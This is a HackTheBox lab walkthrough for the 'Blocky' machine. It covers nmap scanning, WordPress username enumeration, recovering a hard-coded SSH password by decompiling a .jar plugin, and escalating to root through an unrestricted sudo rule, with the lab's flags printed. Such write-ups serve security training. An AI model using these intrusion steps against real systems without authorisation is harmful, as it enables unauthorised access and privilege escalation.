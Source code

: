 ```yaml
---
title: HackTheBox - Blocky
date: 2020-12-22 00:17:00 +0100
categories: [Hackthebox walkthroughs]
tags: [htb-linux-easy, minecraft server, wordpress, java, decompilation, jd-gui, sudo weak configuration, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/Blocky.png 
---
```


## Foothold

### Nmap scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Blocky-full-port-scan.txt 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.12s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

### Apache httpd 2.4.18  (port 80)

If we click on the first post on [http://10.10.10.37/](http://10.10.10.37/), we are redirected to a second page where we see a username (`notch`):

![notch](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/notch.png)

> Since it's a wordpess site we could also query [http://10.10.10.37/?author=1](http://10.10.10.37/?author=1).

With `dirb` we can discover some interesting directories:  

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/dirb.png)

On [http://10.10.10.37/plugins/](http://10.10.10.37/plugins/) there are two `.jar` files:

![plugins](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/plugins.png)

**JAR** stands for **J**ava **A**rchive **D**ata. We can decompile these files with [`jd-gui`](http://java-decompiler.github.io/):

![jd-gui](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/jd-gui.png)

Is this a password?! Let's try to log in to SSH with username `notch` and the password we just found `8YsqfCTnvxAUeduzjNSXe22`

![shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/blocky/shell.png)

Bingo, we have a shell!

## User

```bash
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
```

The first thing to check is: _in which groups is the user I just owned?_ 

```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

As we can see, he's part of the `sudo` users. Let's see what we can run with `sudo`:

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Everything! Are you serious notch?!

![are you serious gif](https://i.gifer.com/2yUm.gif)

## Root

```
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# cd /root
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt
0a9694a5b4d272c694679f7860f1cd5f
```

___

# Useful links

- [Reconnoitre](https://github.com/codingo/Reconnoitre)
- [wpscan](https://github.com/wpscanteam/wpscan)
- [`jd-gui`: a Java decompiler](http://java-decompiler.github.io/)
- [Best practices for hardening sudo?](https://security.stackexchange.com/questions/135352/best-practices-for-hardening-sudo)